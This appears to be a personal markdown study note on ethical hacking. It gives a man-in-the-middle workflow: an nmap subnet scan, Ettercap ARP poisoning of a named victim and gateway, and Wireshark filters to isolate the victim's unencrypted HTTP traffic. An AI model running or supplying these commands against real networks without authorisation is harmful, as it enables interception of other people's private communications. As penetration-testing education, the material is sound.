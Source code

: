 # Ethical Hacking - Reconnaissance - Network Sniffing - Man in the Middle (MiTM)

## Tools 
+ Wireshark
+ Nmap 
+ Ettercap

## Ettercap

### Synopsis/Syntax 
```console
sudo ettercap {options} [arguments...]
```

### Parameters
#### Attack Modes
+ -M [method] : Man-in-the-Middle Attack
    - Methods
        + arp:remote [/router//]  [/victim's IP//] : Man in the Middle using ARP on a remote target (victim) 
            - router : victim's default gateway of the router
            - victim's IP : The victim device you want to sniff/capture/attack     

#### Options
+ -I [interface] : Target Interface
+ -S : No SSL
+ -T : Text Only, no graphical 

### Usage

## WorkFlow
> Method/Order of Operation
- Man-in-the-Middle Network Sniffing
    1. Reconnaissance/Gather information on target in Subnet (using Nmap)
        ```console
        sudo nmap -ss [target_subnet/prefix]
        ```
    2. Start Man-in-the-Middle interception/sniffing process (using Ettercap)
        ```console
        sudo ettercap -T -S -I wlan0 -M arp:remote /default_gateway// /target_IP//
        ```
    3. Catch/sniff the packets into a pcap file (using Wireshark)
        - Filter the packet to see your target's IP
            ```console
            Filter: ip.addr == target_IP
            ```
        - Filter the packet to see your target's IP and an unencrypted protocol
            ```console
            Filter: ip.addr == target_IP && http
            ```

## References
+ [YouTube | NetworkChuck | how Hackers SNiFF (capture) network traffic //MiTM Attack](https://youtu.be/-rSqbgI7oZM)